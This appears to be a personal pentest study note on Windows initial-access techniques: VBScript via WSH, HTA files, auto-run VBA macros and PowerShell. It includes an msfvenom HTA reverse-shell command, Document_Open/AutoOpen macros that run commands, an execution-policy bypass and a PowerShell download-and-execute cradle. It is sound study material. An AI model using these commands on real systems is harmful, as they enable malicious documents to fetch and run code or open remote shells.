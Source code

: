 ```yaml
---
category: Uncategorized
tags: []
---
```

# WSH
- Windows Scripting Host
- Windows Native Engine
- Two executables reponsible for running Visual Basic Scrips:
	- `cscript.exe` : Command line scripts
	- `wscript.exe` : GUI Scripts
- Simple Hello World Script:
```vb
'Can be executed with wscript.exe script.vbs
Dim Message
Message = "Hello World"
MsgBox Message
```
- Run a program with vbs
```vb
Set Shell = Wscript.CreateObject("Wscript.Shell")
Shell.run("C:\Windows\System32\cmd.exe" & Wscript.ScriptFullName),0,True
'Executing the above with wscript.exe payload.exe will run cmd.exe in a new window
'Can also be run with cscript.exe
```
# HTA
- HTML Application, ends with `.hta`
- Dynamic HTML pages that contains `JScript` and `VBscript`
- `mshta.exe` is used to execute `.hta` files.
- Can also be executed automatically with Internet Explorer.
- An `.hta` files that executes binary
```html
<html>
<body>
<script>
	var c = 'cmd.exe';
	new ActiveXobject('Wscript.Shell').Run(c);
</script>
</body>
</html>
```
- This can be hosted with any web server.
- MsfVenom can be used to create a reverse shell with the `.hta` format
```bash
msfvenom -p <payload> LHOST=<ip> LPORT=<ip> -f hta-psh -o reverse.hta
```
- Metasploit exploit `exploit/windows/misc/hta_server` can be used to host a webserver hosting an HTA file.
# VBA
- Visual Basic for Application, implimented by Microsoft for it's application such as Word, Powerpoint using macros.
- Can access Windows Application Programing Interface, and low level APIs.
- Simple VBA Macro to display text:
```vb
Sub Popup()
	MsgBox ("Hello World!")
End Sub
'The above macro can be run by F5
```
- VBA to run code when the document is opened:
```vb
Sub Document_Open()
	Popup
End Sub

Sub AutoOpen()
	Popup
End Sub

Sub Popup()
	MsgBox ("Hello World")
```
- Macro is supported by specific file formats such as 
	- `.doc`
	- `.docm`
 - VBA to run commands: 
```vb
Sub Calc()
	Dim Payload as String
	Payload = "calc.exe"
	CreateObject("Wscript.Shell").Run Payload,0
End Sub
```

# PSH
- Run Powershell scripts bypassing the execution policy
```powershell
powershell.exe -ep bypass File script.ps1
```
- Run Powershell payload after downloading script from internet
```powershell
Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://172.17.0.1:8888/test.ps1')
# OR
powershell -c "Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://172.17.0.1:8888/test.ps1')"
```